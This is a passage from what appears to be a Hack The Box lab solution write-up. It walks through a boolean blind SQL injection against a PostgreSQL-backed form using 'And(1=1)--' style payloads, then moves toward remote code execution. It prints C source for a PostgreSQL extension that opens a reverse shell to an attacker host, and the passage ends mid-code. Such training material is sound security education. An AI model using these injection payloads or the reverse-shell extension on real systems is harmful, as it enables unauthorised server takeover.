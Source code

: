 Then, when providing a second query after the keyword `And` that results to `true`, the result attained back in the response is `Password edited!`:

```
title=Hackthebox&username=quark55&password=9lF5%252%24juw%26L&id=1+And(1=1)--
```

![[HTB Solutions/CWEE/z. images/a3c2bec28141414b63de22592ef8fdc1_MD5.jpg]]

However, when providing a second query after the keyword `And` that results to `false`, the result attained back in the response is `You do not own this ID!`:

```
title=Hackthebox&username=quark55&password=9lF5%252%24juw%26L&id=1+And(1=3)--
```

![[HTB Solutions/CWEE/z. images/15058c772c5f0c65bd749ac168899717_MD5.jpg]]

Now that students have identified how to build the oracle for exploiting this blind SQLi, they need to utilize it to get remote code execution on the server. In this case, students do not have the option whether to use either the `COPY` or `PostgreSQL Extensions` methods, since the user running the queries in the backend does not posses the [pg\_execute\_server\_program](https://www.postgresql.org/docs/11/default-roles.html) role. Therefore, the `PostgreSQL Extensions` method must be used. First, students need to save the custom `C` extension for `PostgreSQL` that returns a reverse shell as the `postgres` provided in the `Command Execution` section of the module:

Code: c

```c
#include <sys/socket.h>
#include <arpa/inet.h>
#include <unistd.h>
#include <stdio.h>

#include "postgres.h"
#include "fmgr.h"
#include "utils/builtins.h"

PG_MODULE_MAGIC;

PG_FUNCTION_INFO_V1(rev_shell);

Datum
rev_shell(PG_FUNCTION_ARGS)
{
    // Get arguments
    char *LHOST = text_to_cstring(PG_GETARG_TEXT_PP(0));
    int32 LPORT = PG_GETARG_INT32(1);

    // Define necessary struct
    struct sockaddr_in serv_addr;
    serv_addr.sin_family = AF_INET;
    serv_addr.sin_port = htons(LPORT); // LPORT
    inet_pton(AF_INET, LHOST, &serv_addr.sin_addr); // LHOST

    // Connect to target
    int sock = socket(AF_INET, SOCK_STREAM, 0);
    int client_fd = connect(sock, (struct sockaddr*)&serv_addr, sizeof(serv_addr));

    // Redirect STDOUT/IN/ERR to connection
    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);

    // Start interactive /bin/sh
    execve("/bin/sh", NULL, NULL);

```